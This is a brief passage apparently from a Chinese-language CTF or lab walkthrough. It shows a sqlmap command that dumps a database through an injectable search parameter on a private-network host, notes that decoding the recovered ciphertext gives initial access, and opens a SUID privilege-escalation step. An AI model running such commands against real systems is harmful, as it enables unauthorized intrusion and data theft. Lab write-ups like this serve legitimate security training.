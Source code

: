 ```python
python3 .\sqlmap.py  -u "http://172.16.31.7/kzMb5nVYJw/420search.php?usrtosearch=1"   --dump
```

![image-20240622182706938](./imgs/image-20240622182706938.png) 	

密文解码，就可得到初始权限

# suid提权

先ssh登录ramses，查看历史命令字
